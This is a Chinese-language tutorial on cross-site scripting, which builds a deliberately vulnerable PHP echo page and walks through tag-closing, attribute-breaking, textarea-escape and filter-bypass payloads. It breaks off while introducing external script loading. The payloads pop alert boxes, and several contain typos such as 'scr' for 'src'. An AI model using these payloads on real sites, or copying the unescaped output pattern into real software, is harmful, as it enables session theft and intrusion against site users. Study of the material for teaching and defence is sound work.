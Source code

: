 # XSS原理分析与解剖

![](/attackUsers/xss/image/xss-1.png)

---

## 01. 前言:

xss是一门又热门又不太受重视的Web攻击手法，为什么会这样呢，原因有下：

```
1、耗时间
2、有一定几率不成功
3、没有相应的软件来完成自动化攻击
4、前期需要基本的html、js功底，后期需要扎实的html、js、actionscript2/3.0等语言的功底
5、是一种被动的攻击手法
6、对website有http-only、crossdomian.xml没有用
```
但是这些并没有影响黑客对此漏洞的偏爱，原因不需要多，只需要一个
xss几乎每个网站都存在，google、baidu、360等都存在。

## 02. 原理:
首先我们现在本地搭建个PHP环境(可以使用phpstudy安装包安装)，然后在index.php文件里写入如下代码:

```html
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
        <title>XSS原理重现</title>
    </head>
    <body>
        <form action="" method="get">
        <input type="text" name="xss_input">
        <input type="submit">
        </form>
        <hr>
        
        <?php
            $xss = $_GET['xss_input'];
            echo '你输入的字符为<br>'.$xss;
        ?>
    </body>
</html>
```
然后，你会在页面看到这样的页面
![](/attackUsers/xss/image/xss-2.png)

我们试着输入abcd123，得到的结果为
![](/attackUsers/xss/image/xss-3.png)

我们在看看源代码
![](/attackUsers/xss/image/xss-4.png)

我们输入的字符串被原封不动的输出来了.

>那这里我们提出来一个假设，假设我们在搜索框输入`<script>alert(‘xss’)</script>`会出现什么呢？
如果按照上面的例子来说，它应该在第12行的`<br>`与`</boby>`之间，变成`<br><script>alert(‘xss’)</script></boby>`，而这样,则会弹出一个对话框.

既然假设提出来，那我们来实现下这个假设成不成立吧。
我们输入`<script>alert(‘xss’)</script>`，得到的页面为
![](/attackUsers/xss/image/xss-5.png)
看来，我们的假设成功了，以上内容就是XSS的原理，下面我们来说说xss的构造和利用

## 03. xss利用输出的环境来构造代码:
上节说了xss的原理，但是我们的输出点不一在`<br>`和`</boby>`里，可以出现在html标签的属性里，或者其他标签里面。
所以这节很重要，因为不一定 当你输入`<script>alert(‘xss’)</script>`就会弹窗。

先贴出代码:


```html

<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
        <title>XSS利用输出的环境来构造代码</title>
    </head>
    <body>
        <center>
            <h6>把我们输入的字符串 输出到input里的value属性里</h6>
            <form action="" method="get">
                <h6>请输入你想显现的字符串</h6>
                <input type="text" name="xss_input_value" value="输入"><br>
                <input type="submit">
            </form>
            <hr>
            <?php
                $xss = $_GET['xss_input_value'];
                if(isset($xss))
                {
                    echo '<input type="text" value="'.$xss.'">';
                }
                else
                {
                    echo '<input type="type" value="输出">';
                }
            ?>
        </center>
    </body>
</html>

```

下面是代码的页面
![](/attackUsers/xss/image/xss-6.png)

这段代码的作用是把第一个输入框的字符串，输出到第二个输入框，我们输入1，那么第二个input里的value值就是1，下面是页面的截图和源代码的截图(这里我输入`<script>alert(‘xss’)</script>`来测试)
![](/attackUsers/xss/image/xss-7.png)
点击提交
![](/attackUsers/xss/image/xss-8.png)

明显的可以看到，并没有弹出对话框，大家可能会疑惑为什么没有弹窗呢，我们来看看源代码
![](/attackUsers/xss/image/xss-9.png)

我们看到我们输入的字符串被输出到第15行input标签里的value属性里面，被当成value里的值来显现出来，所以并没有弹窗，这时候我们该怎么办呢？聪明的人已经发现了可以在`<script>alert(&#039;xss&#039;)</script>`前面加个`”>`来闭合input标签。所以应该得到的结果为
![](/attackUsers/xss/image/xss-10.png)

成功弹窗了，我们在看看这时的页面
![](/attackUsers/xss/image/xss-11.png)

看到后面有第二个input输入框后面跟有”>字符串，为什么会这样呢，我们来看看源代码
![](/attackUsers/xss/image/xss-12.png)

这时可以看到我们构造的代码里面有两个`”>`，第一个`”>`是为了闭合input标签，所以第二个`”>`就被抛弃了，因为html的容错性高，所以并没有像php那样出现错误，而是直接把多余的字符串来输出了，有的人是个完美主义者，不喜欢有多余的字符串被输出，这时该怎么办呢？

这里我问大家一个问题，我之前说的xss代码里，为什么全是带有标签的。难道就不能不带标签么？！答：当然可以。既然可以不用标签，那我们就用标签里的属性来构造XSS，这样的话，xss代码又少，又不会有多余的字符串被输出来。

还是这个环境，但是不能使用标签，你应该怎么做:想想input里有什么属性可以调用js，html学的好的人，应该知道了，on事件，对的。我们可以用on事件来进行弹窗，比如这个xss代码 我们可以写成
>`” onclick=”alert(&#039;xss&#039;)`

这时，我们在来试试，页面会发生什么样的变化吧。
![](/attackUsers/xss/image/xss-13.png)

没有看到弹窗啊，失败了么？答案当然是错误的，因为onclick是鼠标点击事件，也就是说当你的鼠标点击第二个input输入框的时候，就会触发`onclick事件`，然后执行`alert(&#039;xss&#039;)`代码。我们来试试看
![](/attackUsers/xss/image/xss-14.png)

当我点击后，就出现了弹窗，这时我们来看看源代码吧
![](/attackUsers/xss/image/xss-15.png)

第15行，value值为空，当鼠标点击时，就会弹出对话框。这里可能就会有人问了，如果要点击才会触发，那不是很麻烦么，成功率不就又下降了么。我来帮你解答这个问题，on事件不止onclick这一个，还有很多，如果你想不需要用户完成什么动作就可以触发的话，可以把`onclick`改成`Onmousemove 当鼠标移动就触发`或者改成`Onload 当页面加载完成后触发`还有很多，我这里就不一一说明了，有兴趣的朋友可以自行查询下。

别以为就这样结束了，还有一类环境不能用上述的方法，那就是如果在**`<textarea>`**标签里？！或者其他优先级比script高的呢？如下面这样
![](/attackUsers/xss/image/xss-16.png)

这时我们该怎么办呢？既然前面都说了闭合属性和闭合标签了，那能不能闭合完整的标签呢，答案是肯定的。我们可以输入`</textarea><script>alert(‘xss’)</script>`就可以实现弹窗了

## 04. 过滤的解决办法
假如说网站禁止过滤了script 这时该怎么办呢，记住一句话，这是我总结出来的“xss就是在页面执行你想要的js”不用管那么多，只要能运行我们的js就OK，比如用img标签或者a标签。我们可以这样写

```html
<-- 当找不到图片名为1的文件时，执行alert('xss') -->
<img scr=1 onerror=alert('xss')>

<-- 点击s时运行alert('xss') -->
<a href=javascrip:alert('xss')>s</a>

<-- 利用iframe的scr来弹窗 -->
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>

<-- 过滤了alert来执行弹窗 -->
<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>
```
等等有很多的方法，不要把思想总局限于一种上面，记住一句话“xss就是在页面执行你想要的js”其他的管他去。(当然有的时候还有管他…)

## 05. xss的利用
说了那么多，大家可能都以为xss就是弹窗，其实错了，弹窗只是测试xss的存在性和使用性。

这时我们要插入js代码了，怎么插呢？

你可以这样

```
<script scr="js_url"></script>
```

